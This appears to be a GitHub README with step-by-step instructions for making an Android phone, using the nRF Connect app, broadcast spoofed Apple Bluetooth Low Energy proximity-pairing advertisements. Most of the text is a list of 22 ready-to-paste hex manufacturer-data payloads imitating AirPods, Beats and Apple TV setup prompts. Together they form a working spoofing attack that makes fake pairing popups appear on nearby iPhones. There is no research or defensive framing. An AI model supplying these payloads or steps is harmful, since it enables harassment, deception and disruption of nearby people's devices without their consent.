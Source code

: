 # Spoof-your-Android-as-Apple-BLE-Proximity-Pairing-device

# Plese Follow Below Steps & Instructions To Do this Propper

First of all you need to download nRF Connected App Use below link to download it
https://www.nordicsemi.com/Products/Development-tools/nrf-connect-for-mobile

- After downloaded that apk then you need to install it.
- After opening the app and giving the relevant permission, you can see an interface like this....
  
  ![20231008_224809](20231008_224809.gif)


  ![repo views](https://hits.seeyoufarm.com/api/count/incr/badge.svg?url=https%3A%2F%2Fgithub.com%2FVehanRajintha%2FSpoof-your-Android-as-Apple-BLE-Proximity-Pairing-devise&count_bg=%2379C83D&title_bg=%23555555&icon=gitpod.svg&icon_color=%23E7E7E7&title=Views&edge_flat=false)


![forks](https://img.shields.io/github/forks/VehanRajintha/Spoof-your-Android-as-Apple-BLE-Proximity-Pairing-devise?label=Forks&style=social)
![stars](https://img.shields.io/github/stars/VehanRajintha/Spoof-your-Android-as-Apple-BLE-Proximity-Pairing-devise?style=social)

![size](https://img.shields.io/github/repo-size/VehanRajintha/Spoof-your-Android-as-Apple-BLE-Proximity-Pairing-devise?color=purple&label=Repo%20Size&style=plastic)
![license](https://img.shields.io/github/license/VehanRajintha/Spoof-your-Android-as-Apple-BLE-Proximity-Pairing-devise?color=purple&label=License&style=plastic)
![developer](https://img.shields.io/static/v1?label=Author&message=Vehan%20Rajintha&color=purple&style=plastic)


- Now enable Bluetooth adapter and click the Advertiser secter.
- Now click the  +  icon at the down of the right hand corner.
- Type anything for Display name section
- Now click ADD RECORD & Select Manufacturer Data.
- Put 004C to Company Identifier.
- Now you need to put PayloadCodes to Hex Data  section & Hit enter.

  Every payload code is down there, all they have to do is copy the payload code of the device they want to spoof and put it in the place called Hex Data.
  

 **Payload Data**

1.Airpods

````
0x1e, 0xff, 0x4c, 0x00, 0x07, 0x19, 0x07, 0x02, 0x20, 0x75, 0xaa, 0x30, 0x01, 0x00, 0x00, 0x45, 0x12, 0x12, 0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00

````

2.AirpodsPro

````
0x1e, 0xff, 0x4c, 0x00, 0x07, 0x19, 0x07, 0x0e, 0x20, 0x75, 0xaa, 0x30, 0x01, 0x00, 0x00, 0x45, 0x12, 0x12, 0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00

````

3.AirpodsMax

````
0x1e, 0xff, 0x4c, 0x00, 0x07, 0x19, 0x07, 0x0a, 0x20, 0x75, 0xaa, 0x30, 0x01, 0x00, 0x00, 0x45, 0x12, 0x12, 0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00

````

4.dataAirpodsGen3

````
0x1e, 0xff, 0x4c, 0x00, 0x07, 0x19, 0x07, 0x13, 0x20, 0x75, 0xaa, 0x30, 0x01, 0x00, 0x00, 0x45, 0x12, 0x12, 0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00

````

5.AirpodsProGen2

````
0x1e, 0xff, 0x4c, 0x00, 0x07, 0x19, 0x07, 0x14, 0x20, 0x75, 0xaa, 0x30, 0x01, 0x00, 0x00, 0x45, 0x12, 0x12, 0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00

````

6.PowerBeats

````
0x1e, 0xff, 0x4c, 0x00, 0x07, 0x19, 0x07, 0x03, 0x20, 0x75, 0xaa, 0x30, 0x01, 0x00, 0x00, 0x45, 0x12, 0x12, 0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00

````

7.PowerBeatsPro

````
0x1e, 0xff, 0x4c, 0x00, 0x07, 0x19, 0x07, 0x0b, 0x20, 0x75, 0xaa, 0x30, 0x01, 0x00, 0x00, 0x45, 0x12, 0x12, 0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00

````

8.BeatsSoloPro

````
0x1e, 0xff, 0x4c, 0x00, 0x07, 0x19, 0x07, 0x0c, 0x20, 0x75, 0xaa, 0x30, 0x01, 0x00, 0x00, 0x45, 0x12, 0x12, 0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00

````

9.BeatsStudioBuds

````
0x1e, 0xff, 0x4c, 0x00, 0x07, 0x19, 0x07, 0x11, 0x20, 0x75, 0xaa, 0x30, 0x01, 0x00, 0x00, 0x45, 0x12, 0x12, 0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00

````

10.dataBeatsFlex

````
0x1e, 0xff, 0x4c, 0x00, 0x07, 0x19, 0x07, 0x10, 0x20, 0x75, 0xaa, 0x30, 0x01, 0x00, 0x00, 0x45, 0x12, 0x12, 0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00

````

11.BeatsX

````
0x1e, 0xff, 0x4c, 0x00, 0x07, 0x19, 0x07, 0x05, 0x20, 0x75, 0xaa, 0x30, 0x01, 0x00, 0x00, 0x45, 0x12, 0x12, 0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00

````

12.BeatsSolo3

````
0x1e, 0xff, 0x4c, 0x00, 0x07, 0x19, 0x07, 0x06, 0x20, 0x75, 0xaa, 0x30, 0x01, 0x00, 0x00, 0x45, 0x12, 0x12, 0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00

````

13.BeatsStudio3

````
0x1e, 0xff, 0x4c, 0x00, 0x07, 0x19, 0x07, 0x09, 0x20, 0x75, 0xaa, 0x30, 0x01, 0x00, 0x00, 0x45, 0x12, 0x12, 0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00

````

14.BeatsStudioPro

````
0x1e, 0xff, 0x4c, 0x00, 0x07, 0x19, 0x07, 0x17, 0x20, 0x75, 0xaa, 0x30, 0x01, 0x00, 0x00, 0x45, 0x12, 0x12, 0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00

````

15.BeatsFitPro

````
0x1e, 0xff, 0x4c, 0x00, 0x07, 0x19, 0x07, 0x12, 0x20, 0x75, 0xaa, 0x30, 0x01, 0x00, 0x00, 0x45, 0x12, 0x12, 0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00

````

16.BeatsStudioBudsPlus

````
0x1e, 0xff, 0x4c, 0x00, 0x07, 0x19, 0x07, 0x16, 0x20, 0x75, 0xaa, 0x30, 0x01, 0x00, 0x00, 0x45, 0x12, 0x12, 0x12, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00

````

17.AppleTVSetup

````
0x16, 0xff, 0x4c, 0x00, 0x04, 0x04, 0x2a, 0x00, 0x00, 0x00, 0x0f, 0x05, 0xc1, 0x01, 0x60, 0x4c, 0x95, 0x00, 0x00, 0x10, 0x00, 0x00, 0x00

````

18.AppleTVPair

````
0x16, 0xff, 0x4c, 0x00, 0x04, 0x04, 0x2a, 0x00, 0x00, 0x00, 0x0f, 0x05, 0xc1, 0x06, 0x60, 0x4c, 0x95, 0x00, 0x00, 0x10, 0x00, 0x00, 0x00

````

19.AppleTVNewUser

````
0x16, 0xff, 0x4c, 0x00, 0x04, 0x04, 0x2a, 0x00, 0x00, 0x00, 0x0f, 0x05, 0xc1, 0x2b, 0x60, 0x4c, 0x95, 0x00, 0x00, 0x10, 0x00, 0x00, 0x00

````

20.AppleTVWirelessAudioSync

````
0x16, 0xff, 0x4c, 0x00, 0x04, 0x04, 0x2a, 0x00, 0x00, 0x00, 0x0f, 0x05, 0xc1, 0xc0, 0x60, 0x4c, 0x95, 0x00, 0x00, 0x10, 0x00, 0x00, 0x00

````

21.AppleTVHomekitSetup

````
0x16, 0xff, 0x4c, 0x00, 0x04, 0x04, 0x2a, 0x00, 0x00, 0x00, 0x0f, 0x05, 0xc1, 0x0d, 0x60, 0x4c, 0x95, 0x00, 0x00, 0x10, 0x00, 0x00, 0x00

````

22.AppleTVKeyboard

````
0x16, 0xff, 0x4c, 0x00, 0x04, 0x04, 0x2a, 0x00, 0x00, 0x00, 0x0f, 0x05, 0xc1, 0x13, 0x60, 0x4c, 0x95, 0x00, 0x00, 0x10, 0x00, 0x00, 0x00

````
















  
